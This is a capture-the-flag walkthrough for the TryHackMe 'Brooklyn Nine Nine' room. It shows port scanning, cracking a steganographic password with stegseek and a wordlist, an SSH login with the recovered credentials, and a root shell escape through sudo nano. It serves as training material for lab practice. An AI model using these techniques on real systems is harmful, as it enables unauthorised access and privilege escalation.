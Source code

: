 ```yaml
---
title: Walkthrough - Brooklyn Nine Nine
published: true
---
```


[https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

* * *

## Hacking

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the website and viewing source get a nice comment ``<!-- Have you ever heard of steganography? -->`` lets check out the image

- ``wget http://10.10.30.68/brooklyn99.jpg``
- ``stegseek brooklyn99.jpg /usr/share/seclists/Passwords/rockyou.txt``

```shell
cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Don't get much else of the webserver. In the ftp logged in as anon we get another note.

```shell
cat note_to_jake.txt  
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now we can login to ssh with holt's creds, and get the user flag

* * * 

## User Flag

- ``cat user.txt`` in holts home dir

* * * 

## Root Flag

```shell
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- ``sudo nano``
- Ctrl+R Ctrl+X
- ``reset; sh 1>&0 2>&0``
- ``cat /root/root.txt``

* * * 